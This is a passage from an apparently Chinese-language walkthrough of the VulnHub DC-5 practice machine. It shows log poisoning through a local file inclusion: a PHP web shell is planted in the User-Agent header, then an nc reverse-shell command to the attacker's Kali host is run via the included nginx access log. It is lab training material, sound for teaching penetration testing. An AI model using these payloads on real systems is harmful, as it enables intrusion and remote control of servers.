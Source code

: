 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC5/9.png)

访问 `http://192.168.141.139` 抓包,在 User-Agent: 中添加 payload: `<?php system($_GET['cmd']) ?>`

kali 开启 nc 监听
```bash
nc -nlvp 4444
```

访问 `http://192.168.141.139/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 192.168.141.134 4444 -e /bin/bash` 测试

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC5/10.png)

弹回来了

---